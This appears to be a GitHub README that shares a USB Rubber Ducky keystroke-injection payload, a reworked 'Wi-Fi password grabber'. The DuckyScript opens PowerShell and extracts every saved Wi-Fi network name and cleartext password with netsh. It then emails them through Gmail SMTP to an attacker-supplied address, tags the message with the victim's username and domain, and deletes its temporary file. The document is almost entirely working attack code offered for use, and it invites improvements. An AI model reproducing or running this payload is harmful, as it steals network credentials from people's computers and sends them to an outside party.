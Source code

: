 ## Slightly improved version of [WiFi password grabber](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WiFi-password-grabber) by Siem

### Make sure to change "YOUREMAIL@gmail.com" with your G-Mail, and "YOURPASSWORD" with your password

### Code:
```
REM Title       : Improved Wi-Fi Password Grabber
REM Author      : Jacob Collins
REM Version     : 3
REM Description : An improved version of the "WiFi password grabber" by Siem. It is a bit faster, and shorter.
REM DISCLAIMER  : Make sure to replace all instances of "YOUREMAIL@gmail.com" (without quotes), with your actual e-mail (MUST BE G-MAIL!), and "YOURPASSWORD" (without quotes) with your password.
REM DISCLAIMER  : Make sure to enable "Allow less secure apps". Here is the link: https://myaccount.google.com/lesssecureapps
DELAY 1000
REM --------> Open the run dialog
GUI r
DELAY 500
REM --------> Open Powershell straight away, allows us to type the command out as its queueing. Close when Powershell exits.
STRING cmd /c powershell && exit
DELAY 500
REM --------> Long-ass command. Gets the SSID and password off each saved WiFi network, formats a bit, sends it to YOUREMAIL@gmail.com, through the account of YOUREMAIL@gmail.com
STRING $a=0;ForEach($b in ((netsh wlan show profile|findstr "All User Profile") -match "All User Profile").split(":")){if($a -eq "1") {(netsh wlan show profile $b.substring(1) Key=clear|findstr /I "SSID Content"|findstr /V "SSIDs") -replace "[^`"]$","`r`n">>a;$a++}else{$a=1}};$c=New-Object Net.Mail.SmtpClient("smtp.gmail.com",587);$c.EnableSsl=$true;$c.Credentials=New-Object System.Net.NetworkCredential("YOUREMAIL@gmail.com","YOURPASSWORD");$d=New-Object System.Net.Mail.MailMessage;$d.From="YOUREMAIL@gmail.com";$d.To.Add("YOUREMAIL@gmail.com");$d.Subject=($env:UserName+"@"+$env:UserDomain);$d.Body=(Get-Content a|out-string);$c.Send($d);Remove-Item a;exit
```
### Suggestions
Please feel free to leave any suggestions, like code minimization, fixes etc.